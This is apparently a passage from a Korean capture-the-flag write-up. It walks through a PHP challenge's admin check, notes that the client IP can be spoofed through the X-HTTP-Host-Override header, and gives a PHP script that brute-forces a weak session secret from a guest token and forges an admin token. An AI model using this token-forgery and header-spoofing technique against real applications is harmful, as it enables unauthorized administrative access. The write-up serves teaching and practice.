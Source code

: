 ```php

if (isset($_POST['url']) && !empty($_POST['url']))
{
    if ( 
        $IP === "127.0.0.1" 
        & $_COOKIE['X-TOKEN'] === hash("sha256", $_SESSION['X-SECRET'].$_COOKIE['USER']) 
        & strpos($_COOKIE['USER'], 'admin') !== false 
    )
    {
        $out = get_data($_POST['url']);
    }
    else
    {
        $out = "Only the administrator can test this function from 127.0.0.1!";
    }

}
...
```

위코드를 보면 다음과 같은 단계를 거치는 것을 확인할 수 있다.

1. `$_SESSION["X-SECRET"]` 값의 존재를 확인하고 없으면 `gen()` 함수를 호출하여 실행시킨다.
2. `$_COOKIE['USER']` 가 설정되어 있지 않다면, `$_SESSION['username']`을 확인하여 사용자의 쿠키에 USER를 할당한다.
3. `$_COOKIE['X-TOKEN']`이 설정되어 있지 않다면, `$_SESSION['X-SECRET']`의 값과 guest문자열을 이어 붙여서 sha256으로 hashing하여 `X-Token`으로 설정한다는 사실이다.
4. `$_SERVER['HTTP_X_HTTP_HOST_OVERRIDE']`가 설정되어 있지않다면 `$_SERVER['REMOTE_ADDR']`로 설정하고, 설정되어 있으면 사용자의 Header값으로 설정하는 것이다. 요기서 `$_SERVER['HTTP_X_HTTP_HOST_OVERRIDE']`의 Header 값은 `X-HTTP-Host-Override` 다.

그럼 가장 먼저 해결해야할 것은 X-SECRET 값이다. 해당 값은 session 값이고, Session Destory가 되지 않는 이상 계속 같은 값으로 유지된다. 즉 계속 바뀌지 않아 고정된 값이라는 것을 알 수 있다. 그리고 그 고정된 값이 guest 문자열과 함께 sha256으로 해싱되어 나한테 반환되었다라는 것을 알 수 있다. 

이를 통해 나에게 반환되었던 X-Token값과 `substr(sha1((string)rand(0,getrandmax())),0,20);` 값을 Brute Forcing하여 어떤 값이 X-Secret에 들어갔는지 확인할 수 있다. 코드는 다음과 같다.

```php
<?php
function gen(){
	for($i=getrandmax(); $i >= 0; $i--){
		$secret = substr(sha1((string)$i),0,20);
		if("48f4bdf130d5f895c4ded1a9c3b9a03a30f580d25412886b0d665baa9e8f07eb" === hash("sha256", $secret."guest")){
			echo $i . "\r\n"; # 1713778683
			return $secret;
		}
	}
}

$secret =  gen();
echo $secret . "\r\n"; # 740c1a7d366b5dd7047a
$token = hash("sha256", $secret."admin");
echo $token . "\r\n"; # 9cf35b150a5bcdd1fac0804ddab73d4fb9208d8d40500978d9d902ed7e63f9c4

?>
```
